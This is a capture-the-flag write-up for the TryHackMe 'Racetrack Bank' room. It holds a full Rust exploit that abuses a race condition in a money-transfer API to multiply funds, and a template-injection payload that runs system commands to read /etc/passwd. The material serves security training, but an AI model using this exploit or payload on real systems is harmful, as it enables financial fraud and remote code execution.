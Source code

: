 # Racetrack Bank

A Hard-rated room.

https://tryhackme.com/room/racetrackbank

Only ports 22 and 80 are open, and on 80 is a banking website where you can create a user, login and send money to other users. On new account creation it gives you 1 gold. Additionally, there is the ability to purchase 'premium' features for 10000 gold. Going by the name, this was some sort of race condition most likely in transferring money.

To bypass this, I created two users: one with the name and password `test` and the other with `test2`. Then I wrote a Rust program that would make concurrent webrequests from one to the other, sending the maximum amount of gold as many times as possible (~20 times over the VPN). Doing this back and forth only a couple of times was sufficient to give user `test` over 10000 gold... the code is in the appendix below.

Once done, I could buy the premium feature, which turned out to be a simple calculator field. Given that the server reports itself as running express, a nodejs web framework, I tried an injection payload which worked to achieve RCE: `{{root.process.mainModule.require('child_process').spawnSync('cat',['/etc/passwd']).stdout}}`.



## Rust race condition exploiter.

This requires the following cargo.toml dependencies:

````yaml
[dependencies]
anyhow = "1.0.70"
futures = "0.3.27"
reqwest = "0.11.15"
tokio = { version = "1.26.0", features = ["macros", "rt-multi-thread"] }
```

Ensure the appropriate users are created, and update the constant url in the code before running:

```rust
use std::collections::HashMap;
use anyhow::Result;

use futures::{stream, StreamExt};
use reqwest::{Proxy, header::COOKIE, redirect::Policy, Client};

const CONCURRENT: usize = 20;
const SITE_URL: &str = "http://10.10.57.199";

async fn client() -> Result<Client> {
    Ok(reqwest::Client::builder()
        .proxy(Proxy::http("http://127.0.0.1:8080")?)
        .redirect(Policy::none())
        .build()?)
}

fn page_url(page: &str) -> String {
    format!("{}/{}", SITE_URL, page)
}

#[tokio::main]
async fn main() -> Result<()> {

    let user1 = get_auth_cookie("test").await?;
    let user2 = get_auth_cookie("test2").await?;

    let mut gold1 = get_gold_amount(&user1).await?;
    while gold1 < 10000 {
        println!("{gold1}");
        race_send(&user1, "test2", gold1).await?;
        let gold2 = get_gold_amount(&user2).await?;
        race_send(&user2, "test", gold2).await?;
        gold1 = get_gold_amount(&user1).await?;
    }    

    println!("done");
    Ok(())
}

async fn get_auth_cookie(username: &str) -> Result<String> {
    let client = client().await?;
    let mut params = HashMap::new();
    params.insert("username", username);
    params.insert("password", username);
    let resp = client.post(page_url("api/login")).form(&params).send().await?;

    let cookie = &resp.headers()["set-cookie"];
    let cookie = cookie.to_str().unwrap().to_string();
    Ok(cookie[..cookie.find(";").unwrap()+1].to_string())
}

async fn get_gold_amount(cookie: &str) -> Result<i32> {
    let client = client().await?;
    let resp = client.get(page_url("home.html")).header(COOKIE, cookie).send().await?;

    let body = resp.text().await?;
    let pos = body.find("Gold: ").unwrap();
    let pos2 = body[pos+6..].find("</a>").unwrap();
    let text = &body[pos+6..pos+pos2].trim();
    Ok(text.parse::<i32>().unwrap())
}

async fn race_send(cookie: &str, target_user: &str, amount: i32) -> Result<()> {
    let tasks = vec![(&cookie, &target_user, amount); CONCURRENT];
    let futures = 
        tasks.iter().map(|(cookie, target_user, amount)| async move {
            let client = reqwest::Client::builder()
            .redirect(Policy::none())
            .build().unwrap();

            let mut params = HashMap::new();
            params.insert("user", (**target_user).to_string());
            params.insert("amount", format!("{}", amount));
            client.post(page_url("api/givegold")).header(COOKIE, **cookie).form(&params).send().await.expect("failed to call");
        });
        
    stream::iter(futures).buffer_unordered(CONCURRENT).collect::<()>().await;
    Ok(())
}
```
